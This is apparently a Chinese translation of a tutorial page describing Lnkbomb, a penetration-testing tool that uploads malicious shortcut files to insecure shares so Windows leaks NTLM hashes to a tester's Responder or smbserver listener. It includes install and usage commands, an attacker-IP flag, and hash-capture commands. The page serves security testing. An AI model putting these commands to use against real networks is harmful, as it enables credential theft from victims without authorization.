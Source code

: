 # Lnkbomb:从不安全的文件共享中收集 NTLM 散列的恶意快捷方式生成器

> 原文：<https://kalilinuxtutorials.com/lnkbomb/>

[![](img//0821b444336284f13779fb9475b919af.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjj57JohNsGGZnH5DG154rkoQbK2hmTi56CPYO5L64PeEYP3vTMihPpoNdTcJzCBUGYThadbIoxPUrC-VkYA0iEqvE9Jk2HdT-dQ7Tm1_g49NTGTPjmA2MkEBYI7qJZY7PAjK1WyFQUmktzgJ7XsGmlCxeIEASW68NufaR6DoA6i7KiTpqaoOmeCKdx/s728/example%20(1).png)

**Lnkbomb** 用于上传恶意快捷文件到不安全的文件共享。该漏洞是由于 Windows 查找与快捷方式文件相关联的图标文件造成的。此图标文件可被定向到运行 Responder 或 smb 服务器的渗透测试机，以收集 NTLMv1 或 NTLMv2 哈希(取决于受害主机的配置)。然后，测试人员可以尝试使用 Hashcat 之类的工具离线破解这些收集到的散列。

有效载荷文件直接上传到测试人员在命令行中指定的不安全文件中。测试者还包括他们的 IP 地址，它被写入有效载荷。

## Python 用法

安装 Lnkbomb

请注意，该项目在 Windows 中工作一致。它在 Linux 中可能有问题。

`**git clone https://github.com/dievus/lnkbomb.git**`

将目录更改为 lnkbomb 并运行:

`**python3 lnkbomb.py -h**`

这将输出帮助菜单，其中包含以下标志:

`**-h, --help - Lists the help options**`

`**-t, --target - Specifies the target file share (ex. -t \\192.168.1.1\Share)**`

`**-a, --attacker - Specifies the tester's attack machine (ex. -a 192.168.1.2)**`

`**-r, --recover - Used to remove the payload when testing is completed (ex. -r randomfilegenerated.recover)**`

完整命令的示例包括:

`**python3 lnkbomb.py -t \\192.168.1.1\**Share -a 192.168.1.2`

`**python3 lnkbomb.py -r randomfilegenerated.recover**`

您需要利用 Responder 或 smbserver 之类的工具来捕获 NTLM 散列。
`**responder -I eth0 -dwf -v**`

或者

`**smbserver.py . . -smb2support**`

![](img//839326e2892d3e9c65acc56d80f677fc.png)

## 可执行用法

从页面右侧的发布链接下载 Lnkbomb。除了使用 lnkbomb.py 而不是 python3 lnkbomb.py 之外，所有标志都与 Python 版本相同

### 注意事项

请记住，该工具仅用于道德黑客和渗透测试目的。我不容忍任何行为，包括测试您目前无权测试的目标。

[**Download**](https://github.com/dievus/lnkbomb)